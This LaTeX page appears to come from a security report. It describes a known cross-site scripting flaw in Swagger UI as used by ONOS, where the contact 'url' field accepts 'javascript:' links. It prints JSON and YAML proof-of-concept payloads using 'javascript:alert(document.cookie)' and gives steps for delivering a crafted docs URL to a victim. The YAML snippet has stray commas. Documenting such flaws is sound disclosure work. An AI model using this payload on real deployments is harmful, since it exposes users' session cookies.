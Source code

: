 \documentclass[a4paper,10pt]{memoir}
\begin{document}
The security issue was notified to the development team via the GitHub issue "XSS Vulnerability with Swagger UI v3" (swagger-api/swagger-ui/issues/3847) in 2017. Specifically, in the configuration file version 2.0 it is possible to enter details that do not specifically concern the APIs or their functioning, such as information on how to contact the developers. These fields are read by Swagger and used to build the web page that the user will then view. The problem lies in the fact that in the "url" field under the "contact" subsection of the "info" section it is possible to insert Javascript code which will then be executed in the user's browser (now a victim). Although many security measures have been implemented to avoid Cross Site Scripting attacks, Swagger does not sanitize inputs that use the "javascript:" protocol, so effectively if the url is formatted as "javascript:alert()", when the user clicks on the link to contact developers will not be redirected to a contact page but that Javascript code will be executed. The following snippet is an example of a payload that can be used in the attack.
\begin{lstlisting}
{
  "swagger" : "2.0",
  "info" : {
    "version" : "1.0.100",
    "title" : "Swagger UI v2.2.10 XSS POC",
    "description" : "Swagger UI v2.2.10 XSS POC",
    "contact" : {
      "name" : "edoardottt",
      "url" : "javascript:alert(document.cookie)",
      "email" : "ottavianelli.1756005@studenti.uniroma1.it"
    },
  },
}
\end{lstlisting}

The malicious configuration file can be also generated using YAML language.
\begin{lstlisting}
swagger: "2.0",
info: 
  title: "Swagger UI v2.2.10 XSS POC",
  description: "Swagger UI v2.2.10 XSS POC"
  version: "1.0.100" 
  contact: 
    name: "edoardottt",
    url: "javascript:alert(document.cookie)",
    email: "ottavianelli.1756005@studenti.uniroma1.it"
\end{lstlisting}

In order to reproduce the vulnerability:
\begin{itemize}
    \item Make sure ONOS is up and running
    \item Craft a malicious configuration file containing the payload for the attack
    \item Generate the final URL that should be visited by the victim (http://ONOS-IP:8181\\/onos/v1/docs/?url=URL-PAYLOAD-FILE (URL-PAYLOAD-FILE is the URL pointing to the file containing the payload)
    \item Deliver the final URL to the victim
    \item If the victim clicks on the link the Javascript payload will be executed
\end{itemize}
\end{document}

